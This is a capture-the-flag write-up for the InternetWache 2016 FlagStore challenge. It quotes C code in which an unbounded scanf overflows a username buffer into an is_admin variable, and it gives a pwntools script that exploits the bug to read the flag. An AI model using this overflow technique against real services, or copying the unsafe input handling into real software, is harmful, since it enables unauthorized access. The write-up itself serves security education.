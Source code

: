 +++
author = "kbeckmann"
categories = [ "writeups" ]
date = "2016-02-21T00:08:47+01:00"
title = "InternetWache 2016 FlagStore (Exploit 70) Writeup"

+++

# Problem

> Description: Here's the ultimate flag store. Store and retrieve your flags whenever you want.

(exp70, solved by 244)

Attachment: exp70.zip

Service: 188.166.133.53:12157

# Solution

The zip contains c-code for the challenge. Looking at it I immediately see an overflow and an interesting location for the `admin` flag.

~~~c++
char username[500];
int is_admin = 0; // <-- can be overwritten
char password[500];

...

printf("Enter an username:");
scanf("%s", username);

// scanf will overwrite username and is_admin
~~~

The exploit is to simply send a long username and a \x01 byte.

~~~
#!/usr/bin/env python2
from pwn import *

r = remote('188.166.133.53', 12157)

r.recvuntil('4\n')

r.sendline('1')
r.sendline('A'*499 + '\x00\x01')
r.sendline('A'*8)
r.sendline('2')
r.sendline('A'*499)
r.sendline('A'*8)
r.sendline('3')

print r.clean()
~~~

Your flag: **IW{Y_U_NO_HAZ_FLAG}**

